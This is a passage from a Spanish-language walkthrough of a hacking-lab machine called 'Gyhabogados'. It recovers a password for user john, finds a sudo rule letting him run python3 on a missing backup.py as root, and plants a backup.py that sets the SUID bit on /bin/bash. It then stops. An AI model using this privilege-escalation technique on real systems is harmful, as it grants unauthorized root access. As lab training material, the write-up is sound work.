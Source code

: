 Al leerlo, nos da la contraseña para el **usuario john**:
```bash
cat impala_67.jpg.out
john: ***********
```
Ya podemos ver qué privilegios tiene este usuario.

<br>

<h2 id="python">Escalando Privilegios Abusando de Permisos Sudoers Sobre Binario python3 y Script backup.py</h2>

Veamos qué privilegios tiene el **usuario john**:
```bash
john@TheHackersLabs-Gyhabogados:~$ sudo -l
[sudo] password for john: 
Sorry, try again.
[sudo] password for john: 
Matching Defaults entries for john on TheHackersLabs-Gyhabogados:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User john may run the following commands on TheHackersLabs-Gyhabogados:
    (ALL) PASSWD: /usr/bin/python3 /home/john/tools/backup.py
```
Nuestro usuario puede ejecutar un script llamado **backup.py** con **python3** como **Root**.

Dentro de los archivos de este usuario, vemos el directorio **tools**, que es la ruta que se menciona:
```bash
john@TheHackersLabs-Gyhabogados:~$ ls
Maildir  tools
```

Lo curioso, es que no se encuentra el script que se menciona:
```bash
john@TheHackersLabs-Gyhabogados:~$ cd tools/
john@TheHackersLabs-Gyhabogados:~/tools$ ls -la
total 8
drwxr-xr-x 2 john john 4096 Dec  8  2024 .
drwx------ 8 john john 4096 Dec  8  2024 ..
```
Esto nos beneficia, ya que podemos suplantar ese script por uno propio.

Podríamos crear uno que contenga la instrucción que cambie los permisos de la **Bash** y darle **permisos SUID**.

Primero, revisemos qué permisos tiene la **Bash**:
```bash
john@TheHackersLabs-Gyhabogados:~/tools$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```
Solo el **Root** puede ejecutar la **Bash** con privilegios.

Ahora, creamos nuestro script con el nombre **backup.py** y agregamos la instrucción para que cambie los permisos de la **Bash**:
```bash
john@TheHackersLabs-Gyhabogados:~/tools$ nano backup.py
john@TheHackersLabs-Gyhabogados:~/tools$ cat backup.py 
import os

os.system("chmod u+s /bin/bash")
```
